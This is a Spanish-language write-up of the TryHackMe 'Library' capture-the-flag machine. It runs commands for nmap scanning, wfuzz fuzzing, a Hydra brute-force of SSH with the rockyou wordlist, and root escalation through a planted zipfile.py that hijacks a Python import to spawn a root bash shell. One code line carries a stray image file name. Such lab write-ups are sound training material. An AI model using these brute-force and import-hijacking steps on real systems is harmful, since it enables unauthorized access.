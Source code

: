 ```yaml
---
layout: single
title: Library
excerpt: "boot2root machine for FIT and bsides guatemala CTF"
date: 2022-04-29
classes: wide
header:
  teaser: /assets/images/thm-writeup-library/library_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Hydra
  - SSH
  - Python
  - nmap
  - wfuzz
---
```


![logo](/assets/images/thm-writeup-library/library_logo.png)

 [Link](https://tryhackme.com/room/bsidesgtlibrary "dav")

boot2root machine for FIT and bsides guatemala CTF - Read user.txt and root.txt.

---

## 1. Fase de reconocimiento

- Para  conocer a que nos estamos enfrentando lanzamos el siguiente comando:

~~~css
ping -c 1 {ip}
~~~

![ping](/assets/images/thm-writeup-library/library_ping.png)



- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los ***65535*** puertos de red el cual guardamos en un archivo en formato ***nmap*** con el siguiente comando:
  
~~~css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip} -oN allports
~~~

![ping](/assets/images/thm-writeup-library/library_nmap_allports.png)

---

- De acuerdo con el escaneo anterior, se encuentran los siguientes puertos abiertos; 22 (ssh) y 80 (htp)

- Escaeno de vulnerabilidades sobre los puerto 80:
  
~~~css
└─#  nmap -v -A -sC -sV -Pn {ip} -p22,80 --script vuln

~~~

---

- Whatweb nos da la siguiente información:

~~~css
whatweb {ip}
~~~

![whatweb](/assets/images/thm-writeup-library/library_whatweb.png)

---

- Revisión de la URL ***http://10.10.158.155***:

![whatweb](/assets/images/thm-writeup-library/library_web.png)

- Buscando el la ruta ***robots.txt***, me encontré con el siguiente mensaje:

![robots](/assets/images/thm-writeup-library/library_robots.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

~~~css
└─# wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt {ip}/FUZZ/
~~~

![wfuzz](/assets/images/thm-writeup-library/library_wfuzz.png)

- Con el anterior escaner encotramos solo un archivo ***images*** en el cual no encotramos unas imagenes:

![wfuzz](/assets/images/thm-writeup-library/library_images.png)

---

## 4 Hydra

- Con la información de ***robots.txt*** procedemos a intentar por fuerza bruta a conseguir la contraseña del usuario ***meliodas*** que habiamos encontrado en la página de inicio:

~~~css
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt   ssh://{ip} -f -VV -t 4
~~~

![Hydra](/assets/images/thm-writeup-library/library_hydra.png)


## 4. SSH

- Con la contraseña obtenida con ***hydra*** del usuario ***meliodas*** procedemos a establecer una conexión via ***ssh**.

~~~css
└─# ssh meliodas@{ip}
~~~

![ssh](/assets/images/thm-writeup-library/library_ssh.png)


## 5. Bandera de usuario

- Listamos con ***ls*** y encontramos el archivo ***user.txt***:

![usr](/assets/images/thm-writeup-library/library_usr.png)

---

## 6. Bandera root

- Búsqueda de vulnerabilidades con el comando ***sudo -l***:

![root](/assets/images/thm-writeup-library/library_ls.png)

- Creación del binario  ***zipfile.py***, desde la máquina atacante, con el siguiente contenido que nos va a escalar una ***bash*** como root:

~~~css
library_ls.pngimport os

ZIP_DEFLATED = 1

def ZipFile(param1, param2, param3):
        print(os.system('/bin/bash'))
~~~

- Procedemos a compartirlo con un servidor en ***python***

![root](/assets/images/thm-writeup-library/library_server.png)

---

- Descargamos el archivo creado en la máquina con ***wget***:

![wget](/assets/images/thm-writeup-library/library_wget.png)

---

- Ejecutamos el script ***bak.py*** y obtenemos la bandera root:

![root](/assets/images/thm-writeup-library/library_root.png)

---

## 7. Fuentes

- Writeup:
  
<https://r4bb1t.medium.com/library-write-up-7dd5d5c5a9eb>
